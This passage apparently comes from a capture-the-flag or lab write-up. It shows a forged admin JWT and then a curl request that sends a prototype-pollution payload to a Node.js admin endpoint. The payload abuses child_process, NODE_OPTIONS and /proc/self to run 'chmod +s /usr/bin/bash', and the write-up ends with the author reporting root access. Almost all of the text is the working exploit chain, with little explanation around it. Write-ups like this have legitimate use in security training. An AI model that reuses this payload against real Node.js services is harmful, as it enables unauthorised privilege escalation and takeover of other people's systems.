 we got our token admin,

~~~
{"Status":"Ok","Header":{"x-access-token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4MzE0MjIzOCwiZXhwIjoxNjgzMTQ1ODM4fQ.G_jvoi-l6Li8mixzljkGkPmo3HgOK3vgg-8AEbQJ-mM"}}
~~~

~~~
curl -X POST http://127.0.0.1:3000/admin/messages/send -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4MzE0NDg0NywiZXhwIjoxNjgzMTQ4NDQ3fQ.D2I2t8qslNgRuxWfpuqSQyXOghT5Kfkc4_k7_6L5JIA" -H "content-type: application/json" -d '{"text":{"constructor":{"prototype":{"shell":"/proc/self/exe","argv0":"console.log(require(\"child_process\").execSync(\"chmod +s /usr/bin/bash\").toString())//","NODE_OPTIONS":"--require /proc/self/cmdline"}}}}'

~~~


![[root.png]]

Finally got root..!!

